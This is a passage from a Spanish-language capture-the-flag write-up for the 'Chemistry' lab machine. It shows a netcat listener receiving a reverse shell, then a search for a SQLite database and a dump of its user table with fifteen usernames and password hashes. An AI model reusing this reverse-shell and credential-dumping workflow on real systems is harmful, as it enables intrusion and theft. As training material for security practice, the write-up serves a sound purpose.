 asegúrate de tener un listener preparado antes de subir el archivo:
```bash
nc -nlp 443

listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.38] 36502
bash: cannot set terminal process group (1072): Inappropriate ioctl for device
bash: no job control in this shell
app@chemistry:~$ 
```

# escalada de usuario
Tras obtener acceso a la máquina, se realizó una búsqueda de archivos que pudieran contener información sensible. Se identificó una base de datos SQLite en la siguiente ruta:
```bash
app@chemistry:~$ find . -name database.db
./instance/database.db
app@chemistry:~$ sqlite3 ./instance/database.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> 
```

Una vez accedido al archivo `database.db` mediante SQLite, se listaron las tablas disponibles con el comando. Se identificó una tabla relevante llamada `user`. Al inspeccionar su esquema, se confirmó que contiene campos de `id`, `username` y `password`. 
```bash
sqlite> .tables
structure  user     
sqlite> .schema user
CREATE TABLE user (
        id INTEGER NOT NULL,
        username VARCHAR(150) NOT NULL,
        password VARCHAR(150) NOT NULL,
        PRIMARY KEY (id),
        UNIQUE (username)
);
sqlite> select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
8|victoria|c3601ad2286a4293868ec2a4bc606ba3
9|tania|a4aa55e816205dc0389591c9f82f43bb
10|eusebio|6cad48078d0241cca9a7b322ecd073b3
11|gelacia|4af70c80b68267012ecdac9a7e916d18
12|fabian|4e5d71f53fdd2eabdbabb233113b5dc0
13|axel|9347f9724ca083b17e39555c36fd9007
14|kristel|6896ba7b11a62cacffbdaded457c6d92
15|register|9de4a97425678c5b1288aa70c1669a64
sqlite> 
```
